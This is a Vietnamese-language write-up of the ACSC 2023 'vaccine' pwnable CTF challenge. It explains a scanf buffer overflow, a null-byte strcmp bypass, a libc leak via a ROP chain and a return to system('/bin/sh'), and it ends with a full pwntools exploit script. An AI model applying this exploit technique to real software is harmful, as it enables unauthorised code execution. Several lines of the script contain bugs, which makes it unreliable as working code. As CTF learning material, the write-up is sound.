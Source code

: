 > From phis1Ng_ with luv
# ACSC 2023 : vaccine - warmup
**Category:** Pwnable
- Link challenge : [vaccine](https://github.com/w1n-gl0ry/CTF/blob/b65dfe3934341213d459b63d3bd81b0a0453f720/2023/ACSC_2023/vaccine/vaccine)


> nc vaccine.chal.ctf.acsc.asia 1337

Bên lề: Đây là Writeup đầu tay trong năm 2023 của mình, nên là có sai sót gì mong mọi người thông cảm nhé :> 



## Write up

# 1. Tìm lỗi:

Đầu tiên, mình dùng lệnh `file` để xem trong file thực thi có gì:
```
vaccine: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a158b3c9f204dc1fdf47fefdac488b0da10fc5b0, for GNU/Linux 3.2.0, not stripped
```
Nah, đây là 1 file executable `64 bit` không bị [stripped](https://stackoverflow.com/questions/4698299/set-breakpoint-in-an-stripped-elf-executable) (stripped là gì thì bấm vào để tham khảo thêm nhé), nên ta có thể dễ dàng tìm kiếm các functions trong `IDA` cũng như `gdb`

Như thường lệ của một người chơi Pwn, tải file về và thả vào `IDA` thôi nào !

Nhìn vào hàm main bên dưới:

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/449dc437169f924248351d62c2212c896aa0190d/2023/ACSC_2023/vaccine/image/vaccine.png)

Ta thấy, chương trình tạo mảng s2 sau đó bắt ta nhập vào thông qua hàm `scanf()`, nhìn sơ ta dễ thấy hàm `scanf()` không chỉ định độ dài nhập vào nên xuất hiện lỗ hổng `buffer overflow`.

Mình tiến hành kiểm tra các mitigations của file thực thi để xem có khai thác được gì không, dùng lệnh `checksec` để kiểm tra:

```
[*] '/home/w1n_gl0ry/CTF/Pwnable/ACSC2023/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Hmm, ta thấy chỉ bits `NX` được bật, có nghĩa là chúng ta không thể exploit bằng cách inject shellcode được, nên ta tiếp tục phân tích hàm main,

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/fdd8a08e8b941ed321e7e27b6dbedd0bd22b0b75/2023/ACSC_2023/vaccine/image/Screenshot%202023-03-07%20135509.png)

Chương trình kiểm tra toàn bộ biến s2 với các kí tự ASCII `65`, `67`, `71`, `84` tương ứng với các kí tự `A`, `C`, `G`, `T` mà chương trình gọi là `DNA codes`. Nếu khác kí tự nào thì chương trình sẽ thoát ngay lập tức.

Ngược lại, lúc s2 thõa mãn thì chương trình sẽ tiếp tục kiểm tra với mảng s cho trước gồm các kí tự trong file `RNA.txt`. Rõ ràng, ta không thể đoán được nên phải tìm cách bypass đoạn này. Khi tất cả đều thõa mãn thì chúng ta sẽ nhận được reward (maybe là flag :>)

Đến đây, chúng ta chỉ cần bypass các kí tự `DNA codes` và hàm `strcmp(s, s2)`, từ đó ta có thể ghi đè `return addr` bằng payload mà ta mong muốn.

# 2. Ý tưởng:

Làm sao ta có thể bypass được hàm `strcmp()` trong khi ta không biết trong mảng s có gì ?

-> Mấu chốt chính là hàm `scanf()`, dùng lệnh `man 3 scanf` để xem hàm `scanf()` làm gì:
Hàm `scanf()` vẫn sẽ đọc chuỗi cho đến khi gặp kí tự newlines, nhưng kí tự null bytes thì nó vẫn đọc và lúc kết thúc chuỗi hàm sẽ tự động thêm null bytes vào cuối xâu. Ta lợi dụng điều này để ghi đè qua mảng s một kí tự như s2 để bypass được hàm `strcmp()` . Trong khi đó, hàm `strlen()` vẫn thõa mãn. Tuyệt !

Khi ta đã thõa mãn các điều kiện, việc cuối cùng là ghi đè `return addr` về payload mà chúng ta mong muốn.


# 3. Exploit:

[+] Payload 1: Bypass kí tự DNA codes và hàm `strcmp()` :
-> Ta sẽ điền kí tự `A` vào s2 và lấp đầy các kí tự null cho tới mảng s rồi điền kí tiếp tục tự `A`, hàm sẽ tự động null bytes vào cuối xâu nên không cần quan tâm đến mảng s nữa, việc còn lại là lấp đầy `buf` cho tới `ret addr`

Cách 2: Ta sẽ lấp đầy `buf` cho tới `ret addr` bằng các kí tự null -> cũng thõa mãn.

`payload = (b'A' + (offset s2 -> s) * b'\x00' + b'A').ljust(256, b'\x00')`
hoặc
`payload = payload.ljust(256, b'\x00')`

```
[+] Starting local process './vaccine': pid 15939
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '15939', '-x', '/tmp/pwn7i3d52cm.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
Give me vaccine: Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Vậy là đã thành công bước đầu, ta tiếp tục tính payload thứ 2,

[+] Payload 2: Tìm các gadgets phù hợp cho việc leak địa chỉ của hàm nào đó trong thư viện, rồi sau đó tính địa chỉ `libc_base`:

Ta dùng lệnh `ROPgadget --binary vaccine | grep "ret" ` :

```
0x0000000000401443 : pop rdi ; ret
0x0000000000401441 : pop rsi ; pop r15 ; ret
0x000000000040101a : ret
```
-> Có thể những gadgets này sẽ giúp ích trong việc exploit của chúng ta.

```
pop_rdi_ret = 0x401443
pop_rsi_ret = 0x401441
ret = 0x40101a
```
Ta lợi dụng hàm puts để in ra địa chỉ hàm `fopen()` trong thư viện, `payload` như sau:

`payload += <pop_rdi_ret> + <địa chỉ hàm fopen_got> + <địa chỉ hàm puts> + <địa chỉ hàm main>`

Ta quay lại hàm main để địa chỉ hàm `fopen()` được in ra.

```
[+] Starting local process './vaccine': pid 16429
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '16429', '-x', '/tmp/pwn6jt6gfhv.gdb']
[+] Waiting for debugger: Done
got_leak: 0x7f0377c7f6b0
libc_base:  0x7f0377c00000
[*] Switching to interactive mode
Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Thành công lấy leak được địa chỉ và tính được `libc_base`, việc còn lại của ta là thực thi hàm `system('/bin/sh')` !

[+] Payload 3:
Sau khi có địa chỉ hàm `fopen()` ta sẽ tính được địa chỉ `libc_base` , ta tính địa chỉ hàm `system` và chuỗi `/bin/sh` để chiếm được shell.

Tới đây ta dùng one_gadgets để mọi việc dễ dàng hơn (thật ra là mình đã thử cách khác nhưng không thành, có vẻ như chương trình đã cố tình chặn hàm `system()` :>)


# 4. Chiếm cờ:

Đây là toàn bộ file exploit của mình: [asd.py](https://github.com/w1n-gl0ry/CTF/blob/0da95eda4b2c9730eabe7473c6dbf1fe7e87f927/2023/ACSC_2023/vaccine/asd.py)
```
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vaccine')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#r = remote('vaccine.chal.ctf.acsc.asia', 1337)
r = process('./vaccine')

str="""
b* main+417
"""
#gdb.attach(r, str)

pop_rdi_ret = 0x401443
pop_rsi_ret = 0x401441
ret = 0x40101a
payload = b'A' 
payload += + b'\x00'*111
payload += b'A'
payload = payload.ljust(0x100, b'\x00')
payload += p64(0)
payload += p64(pop_rdi_ret)
payload += p64(elf.got['fopen'])
payload += p64(elf.symbols['puts'])
payload += p64(elf.symbols['main'])

r.sendline(payload)

leak = r.recv()
fopen_leak = u64(leak[:6].ljust(8, b"\x00"))
log.info('fopen_leak: ' + fopen_leak)

libc_base = fopen_leak - libc.symbols['fopen']
log.info('libc_base: ' + libc_base)

bin_sh = libc_base + next(libc.search(b"/bin/sh\x00"))
system = libc_base + libc.symbols['system']
exit = libc_base + libc.symbols['exit']

payload = b'A' 
payload += b'\x00'*111
payload += b'A'
payload += payload.ljust(0x100, b'\x00')
payload += p64(0)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(system)
payload += p64(exit)

r.sendline(payload)
r.interactive()
```
Chúc mọi người 1 tuần tốt lành !!




